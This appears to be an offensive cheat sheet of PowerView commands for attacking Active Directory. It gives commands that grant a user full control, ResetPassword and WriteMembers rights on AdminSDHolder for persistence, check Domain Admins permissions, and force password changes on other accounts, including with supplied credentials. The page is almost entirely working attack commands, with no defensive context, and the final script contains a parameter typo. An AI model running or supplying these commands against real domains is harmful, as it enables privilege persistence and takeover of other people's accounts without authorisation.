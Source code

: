 ### <span style="color:#F1C232">Add full control permissions for a user to the AdminSDHolder</span>
 
```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName user1 -Rights All -Verbose
```

### <span style="color:#F1C232">Other Interesting permissions ( Reset-password, Write-members) for a user to the AdminSDHolder</span>
 
```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName user1 -Rights ResetPassword -Verbose
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName user1 -Rights WriteMembers -Verbose
```

### <span style="color:#F1C232">Check Domain Admin perms</span>
 
```powershell
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'user1'}
```

### <span style="color:#F1C232">Abusing ResetPassword/ForceChangePassword</span>
 
```powershell
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

### <span style="color:#F1C232">Abusing ForceChangePassword with a different user's creds</span>
 
```powershell
Import-Module .\PowerView_dev.ps1

#Setting password for runas user for
$SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force

#Setting password for runas user for
$Cred = New-Object System.Management.Automation.PSCredential('Domain-Name-Here\User-here', $SecPassword)

#Set new password fot the user where you can abuse ForceChangePassword
$UserPassword = ConvertTo-SecureString 'Password1!' -AsPlainText -Force

#Update the password for that user
Set-DomainUserPassword -Identity User-Whose-Password-You-Want-To-Change-here -AccountPassword $UserPassword -Crendential $Cred

```
